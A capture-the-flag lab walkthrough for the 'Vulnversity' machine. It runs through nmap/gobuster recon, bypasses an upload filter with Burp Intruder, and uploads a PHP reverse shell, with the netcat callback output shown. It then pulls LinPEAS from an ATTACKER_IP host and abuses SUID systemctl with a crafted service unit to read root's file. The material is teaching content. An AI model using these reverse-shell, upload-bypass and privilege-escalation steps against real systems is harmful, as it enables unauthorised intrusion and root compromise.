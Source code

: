 # Vulnversity (Upload form and SUID)

### **Vulnversity** <a href="#pqosbwdbb2f5" id="pqosbwdbb2f5"></a>

### **Reconnaissance** <a href="#jyvafdv667q0" id="jyvafdv667q0"></a>

| **Nmap Flag**  | **Description**                                                                     |
| -------------- | ----------------------------------------------------------------------------------- |
| -sV            | Attempt to determine version of running services.                                   |
| -p \<x> or -p- | Port scan for port or scan all ports.                                               |
| -Pn            | Disable host discovery and scan for open ports.                                     |
| -A             | Enable OS and version detection, executes in-built scripts for further examination. |
| -sC            | Scan with default Nmap scripts.                                                     |
| -v             | Verbose mode.                                                                       |
| -sU            | UDP port scan.                                                                      |
| -sS            | TCP SYN port scan.                                                                  |

### **Locating Directories Using**[ **Gobuster**](https://github.com/OJ/gobuster) <a href="#slkkkg2mp3hm" id="slkkkg2mp3hm"></a>

* Brute forces URIs (directories and files), DNS subdomains, and virtual host names.
* Install Gobuster on Kali.

sudo apt-get install gobuster

* Requires wordlist to identify if public directory is available.
* Kali /usr/share/wordlists folder contains many wordlists.

| **Gobuster Flag**  | **Description**                                 |
| ------------------ | ----------------------------------------------- |
| dir                | Use directory/file brute forcing.               |
| -e                 | Prints full URLs to the console.                |
| -u                 | Target URL.                                     |
| -w                 | Path to wordlist.                               |
| -U and -P          | Username and password for basic authentication. |
| -p \<x>            | Proxy to use for requests.                      |
| -c \<http cookies> | Specify cookie for simulating authentication.   |

### **Compromise the Webserver** <a href="#qgehf8bqr1ee" id="qgehf8bqr1ee"></a>

* [Download reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
* Upload to http://TARGET\_IP:3333/internal/.
  * PHP file extensions blocked by upload form.
* Fuzz upload form using BurpSuite to identify which extensions are not blocked.

#### **Use the Intruder to automate customised attacks.** <a href="#rj9tnyj668y7" id="rj9tnyj668y7"></a>

**1. Make a wordlist of extensions.**

printf "php\nphp3\nphp4\nphp5\nphtml" > phpext.txt

**2. Intercept browser traffic with BurpSuite.**

**3. Send captured request to Intruder.**

* "Sniper" attack type.
* "Payload Positions" > find the filename > prefix and suffix § to extension.
* "Payloads" > "Payload settings" > "Load" > phptext.txt.
  * .phtml extensions allowed by upload form.

**4. Start the attack.**

* Edit php-reverse-shell.php.
  * Change IP to attacking machine.
  * Rename file to php-reverse-shell.phtml.
* Reverse shell is called on target.
* Forces a connection to listening attacker.

mv php-reverse-shell.php php-reverse-shell.phtml

**5. Listen to incoming connections using netcat.**

nc -lvnp 1234

**6. Upload shell to webserver.**

**7. Execute payload.**

* Navigate to http://TARGET\_IP:3333/internal/uploads/php-reverse-shell.phtml

**8. Connection established on Netcat session.**

Connection from 10.10.240.196 33302 received!

Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86\_64 x86\_64 x86\_64 GNU/Linux

10:00:44 up 1:34, 0 users, load average: 0.00, 0.00, 0.00

USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT

uid=33(www-data) gid=33(www-data) groups=33(www-data)

/bin/sh: 0: can't access tty; job control turned off

$ whoami

www-data

### **Privilege Escalation** <a href="#f1cdfgno2i9w" id="f1cdfgno2i9w"></a>

* Linux SUID (set owner userId upon execution) is special type of file permission.
* Gives temporary permissions to a user to run binary with permission of file owner.
  * E.g. /usr/bin/passwd binary file to change user password has SUID bit set.
    * User needs to be able to write to shadowers file but only root has access by default.
    * User account has root privileges to make the right changes.

4 2 1 4 2 1 4 2 1

r w x r w x r w x

SUID V V V

r w s r w x r w x

\-------

User

**1. Upgrade to TTY shell using Python.**

python -c 'import pty; pty.spawn("/bin/bash")'

**2. Search for all SUID files.**

find / -user root -perm -4000 -print 2>/dev/null

* \-user root is file owner.
* \-perm 4000 specifies permissions.

**3. Use**[ **LinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) **scripts to identify SUID vulnerabilties.**

mkdir /home/kali/linpeas

cd /home/kali/linpeas

wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

**4. Serve payload through python webserver.**

python3 -m http.server

**5. Download LinPEAS to target.**

* Ensure that target directory has write permissions (/tmp).
* Write LinPeas output to txt file.

wget http://ATTACKER\_IP:8000/linpeas.sh

chmod +c ./linpeas.txt

./linpeas.sh -a > linpeas.txt

**6. Read SUID part of linpeas.txt file.**

grep -A 50 "SUID - Check easy privesc, exploits and write perms" ./linpeas.txt

* \-A 50 means list 50 lines after the search term "SUID - Check easy privesc, exploits and write perms".
* LinPEAS shows /bin/systemctl highlighted in red/yellow signifying a 95% privilege escalation vector.

**7. Browse to**[ **GTFOBins**](https://gtfobins.github.io/)

* Select SUID'
* CTRL+F and search for systemctl.

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

**8. cd /tmp as this directory is writable.**

**9. Create local SUID copy of bash binary and run it to maintain elevated (root) privileges.**

TF=$(mktemp).service

echo '\[Service]

Type=oneshot

ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"

\[Install]

WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF

Created symlink from /etc/systemd/system/tmp.PzHSya3VD0.service to /tmp/tmp.PzHSya3VD0.service.

/bin/systemctl enable --now $TF

Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.X6k1yvp1ii.service to /tmp/tmp.X6k1yvp1ii.service.

**10. cat /tmp/output to read file that contains contents of restricted /root/root.txt file.**
